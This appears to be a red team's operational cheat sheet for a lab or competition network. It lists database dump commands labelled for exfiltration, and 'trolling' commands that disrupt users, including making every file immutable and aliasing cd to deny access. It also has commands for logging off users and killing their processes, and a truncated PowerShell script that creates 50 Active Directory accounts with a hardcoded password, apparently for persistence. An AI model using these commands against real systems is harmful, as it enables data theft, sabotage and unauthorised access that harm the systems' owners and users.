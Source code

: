 **Misc**
- Windows:
  - Shutdown: `shutdown /s /t 0`
  - Reboot: `shutdown /r /t 0`
  - Logoff user:
    - `query session` and `logoff {id}` to log off a specific user
  - Powershell save path: `(Get-PSReadlineOption).HistorySavePath`
- Linux:
  - `reboot` to restart
  - `who` to see who's on a system
  - `pkill -KILL -u {user}` - kill all of a user's processes
  - `kill -9 {pid}` to kill a specific process
- Machine IPs:
  - Kali1: 10.10.0.171
  - Kali2: 10.10.0.184
  - Ubuntu: 10.10.0.181
  - Windows 10.10.0.136
- Set date: `touch -d "4 May 2024"`


**Databases**
- Exploitation:
  - Keep an eye out for older servers( MySQL 5.6/5.7, PostgreSQL 9.x, SQL Server 2012/2014)
- Exfil:
  - MySQL: `mysqldump -h [host] -u [user] -p[password] --all-databases > mysql_all_dbs.sql`
  - PostgreSQL: `pg_dump -h [host] -U [username] -F c -b -v -f postgresql_all.dump postgres`
  - MSSQL (table names): `Invoke-Sqlcmd -ServerInstance [server] -Username [user] -Password [password] -Query "SELECT name FROM master.sys.databases" | Format-Table -AutoSize > mssql_dbs.txt`
  - Oracle: `sqlplus [username]/[password]@[host]/[SID] @extract.sql > oracle_data.txt`
  - MongoDB: `mongodump --host [host] --port [port] --username [user] --password [password] --out ./mongodb_dump`

**Trolling**
- alias binaries :>
  - `echo "alias cd='echo access denied'" >> ~/.bashrc`
- wall
  - `wall "System update: please wiggle your mouse to avoid data loss.`
- login messages:
  - `echo "WARNING: This system is monitored by a mildly annoyed squirrel." > /etc/motd`
- Make all files immutable:
  - `find . -type f -exec chattr +i {} +`
- Set all computers to same background:
  - GPO management > right-click domain > Create GPO in domain and link here > Right click on new GPO + edit > User Configuration\Policies\Administrative Templates\Desktop\Desktop > desktop wallpaper > select `enabled` + enter path of image and select fill for style > apply + ok > `gpupdate /force`

**Todo:**
- Practice using sliver for session management
- Make windows persistence script? If we can get sliver working, this should be taken care of
- 

**Ideas:**

```
Import-Module ActiveDirectory
$N = 50
$outputFile = ".\created_users.txt"
"" > $outputFile  

for ($i = 1; $i -le $N; $i++) {
    $username = -join ((65..90) + (97..122) | Get-Random -Count 10 | ForEach-Object {[char]$_})
    $password = "Kh43lWuzH3r3"
    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-ADUser -Name $username -SamAccountName $username -AccountPassword $securePass -Enabled $true
```